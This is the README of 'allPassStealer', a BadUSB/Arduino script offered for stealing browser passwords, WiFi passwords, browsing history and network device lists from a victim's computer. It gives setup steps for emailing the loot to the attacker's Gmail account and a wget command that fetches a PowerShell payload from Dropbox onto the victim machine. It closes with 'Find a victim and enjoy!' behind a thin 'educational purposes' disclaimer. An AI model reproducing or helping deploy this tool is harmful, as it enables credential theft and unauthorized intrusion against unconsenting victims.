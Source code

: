 # allPassStealer
# Warning ⚠️
Everything in this repository is **strictly** for educational purposes. Notice **I am not responsible** for stolen data. **You are responsible** for your actions using developed script for **BadUSB**
# About ℹ️
This **script** allows you to steal the following **information** :
* Browser **passwords** (Chrome, Firefox, Opera);
* **WiFi** passwords;
* Browser **history** from the last 7 days;
* The list of all **devices** that are **connected to victim's network**;
### NB n°1
Sometimes, you will see something like this : 
``` 
Keyboard.press(KEY_LEFT_CTRL);
Keyboard.press(KEY_LEFT_ALT);
Keyboard.press(173);
Keyboard.releaseAll(); 
```
This is only to write these characters : "@", "\\". But it depends on the computer's layout, so adapt these characters thanks to this [site](https://www.csee.umbc.edu/portal/help/theory/ascii.txt) and the sequence you actually use to wirte these characters with your keyboard. (or switch the keyboard layout to French).
### NB n°2
You can customize the **delay** according to the speed in which you plug the **BadUSB**.
# Getting Started ✔️
## Requirments
1. Have a **BadUSB**.

2. Install **Arduino software** [here](https://www.arduino.cc/en/software).

2. Have a **Gmail** account and enable **less secure app** [here](https://www.google.com/settings/security/lesssecureapps).
## Install
1. Download this repository.

**Linux :**
```
git clone https://github.com/tuconnaisyouknow/allPassStealer
cd ChromePassStealer
```
**Windows :** Click on green button on right top of main page. Then click on "Download Zip" and extract zip file.

2. Replace your mail and password [here](https://github.com/tuconnaisyouknow/allPassStealer/blob/main/ciaoV2.ps1) at line 16, 18, 19.

3. Replace link [here](https://github.com/tuconnaisyouknow/allPassStealer/blob/main/allPassStealer.ino) at line 85.

4. Add your code in the **BadUSB** by **Arduino software**.

5. Find a victim and enjoy !
## Requirments for victim PC
* Turn off caps lock.
* Switch the keyboard layout to French (or adapt the code according to your layout).
# How to set a link for wget the script
1. Create a dropbox account [here](https://www.dropbox.com);

2. Upload the ciaoV2.ps1;

3. Copy the link of the file and change ?dl=0 by ?raw=1;

4. The line with wget will be like this : wget https://dropbox.com/s/link/ciaoV2.ps1?raw=1 -OutFile ciaoV2.ps1

